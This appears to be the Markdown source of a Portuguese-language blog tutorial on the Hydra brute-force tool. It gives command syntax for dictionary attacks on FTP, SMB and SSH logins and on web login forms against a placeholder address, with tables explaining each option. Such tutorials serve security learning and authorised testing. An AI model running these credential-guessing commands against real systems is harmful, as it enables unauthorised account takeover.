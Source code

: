 ```yaml
---
layout: post
title: Hydra Brute Force
author: 'Antony Leite'
date: 2020-07-22 12:00:00 -0300
lide: Uma pequena introdução a essa excelente ferramenta de Brute Force.
---
```


<table class="table">
  <thead>
    <tr>
      <th scope="col">#</th>
      <th scope="col">First</th>
      <th scope="col">Last</th>
      <th scope="col">Handle</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <th scope="row">1</th>
      <td>Mark</td>
      <td>Otto</td>
      <td>@mdo</td>
    </tr>
    <tr>
      <th scope="row">2</th>
      <td>Jacob</td>
      <td>Thornton</td>
      <td>@fat</td>
    </tr>
    <tr>
      <th scope="row">3</th>
      <td colspan="2">Larry the Bird</td>
      <td>@twitter</td>
    </tr>
  </tbody>
</table>

## Hydra Brute Force.

Basicamente o Hydra utiliza o método de brute force (tentativa e erro) para descobrir senhas. Ela faz uso de dicionários que contem diversas variedades e combinações de senhas e de logins. Essa ferramenta tem suporte para diversos protocolos, tais como FTP, SMB, SSH, MySQL, formulários web entre outros. Nesse breve introdução, vamos abordar o uso do Hydra nos serviços de FTP, SMB e SSH e formulário web.

Lembrando que você pode rodar o comando **`$ hydra -h`** que você ira ver a opção de ajuda do Hydra.

## Hydra FTP

FTP (*File Transfer Protocol*) é protocolo de transferência de arquivos. Um dos mais antigos em uso hoje em dia.

Para usar o Hydra em alguns serviço FTP basta seguir a sintaxe abaixo:

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> ftp://10.10.10.10`**

Ou

**`hydra -l <usuário> -p <senha> ftp://10.10.10.10`**

|  Opção  | 	 	  Descrição            |
|---------|--------------------------------|
|   -l    | Setar um único usuário         |
|   -L    | Setar um dicionário de usuários|
|   -p    | Setar uma unica senha 	       |
|   -P 	  | Setar um dicionário de senhas  |

## Hydra SMB


SMB (*Server Message Block*) é é um protocolo para compartilhar arquivos, impressoras, portas seriais e abstrações de comunicações, um servidor cliente, protocolo de solicitação-resposta.

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 smb`**

|  Opção  | 	  	   Descrição           |
|---------|--------------------------------|
|   -L    | Setar um dicionário de usuários|
|   -P 	  | Setar um dicionário de senhas  |
| 	smb   | 	       Protocolo 	       |

## Hydra SSH

Secure Shell (*SSH*) é geralmente usado para acessar sistemas operacionais semelhantes ao Unix, mas também pode ser usado no Microsoft Windows. O Windows 10 usa o OpenSSH como seu cliente SSH padrão e servidor SSH.

Para usar o Hydra no serviço de SSH basta seguir a sintaxe abaixo:

**`$ hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 ssh`**

|  Opção  |   		  Descrição            |
|---------|--------------------------------|
|   -L    | Setar um dicionário de usuários|
|   -P 	  | Setar um dicionário de senhas  |
|   ssh   | 		 Protocolo 		       |

## Hydra Formulários Web

Podemos usar o Hydra para Brute Force em formulários web, porém você terá  que saber qual tipo de solicitação que o site esta fazendo, se é o método GET ou POST. Para você saber qual método o site está solicitando você pode fazer uso das ferramentas de desenvolvedor do seu navegador.

Você pode usar o seguinte comando para o método POST:

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`**

|    	 Opção       | 		     Descrição             |
|--------------------|---------------------------------|
|         -L         | Setar um dicionário de usuários |
|   	  -P 	  	 | Setar um dicionário de senhas   |
|   http-post-form   | 		     Protocolo 	           |

E o seguinte comando para o método GET:

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 http-get-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`**

|    	 Opção       | 	  	   	 Descrição             |
|--------------------|---------------------------------|
|         -L         | Setar um dicionário de usuários |
|   	  -P 	  	 | Setar um dicionário de senhas   |
|    http-get-form   | 	   		 Protocolo 	           |

#### Observação!

Saiba que você pode pode mesclar as opções, elas variam de acordo com sua necessidade. Vamos supor que você já tem o usuário do SSH e quer somente descobrir a senha, basta você usar seguinte comando:

**`$ hydra -l <usuário> -P <dicionário de senhas.txt> 10.10.10.10 ssh`**

|  Opção  |   		 Descrição             |
|---------|--------------------------------|
|   -l    | Setar um único usuário         |
|   -P 	  | Setar um dicionário de senhas  |
|   ssh   | 		 Protocolo 			   |
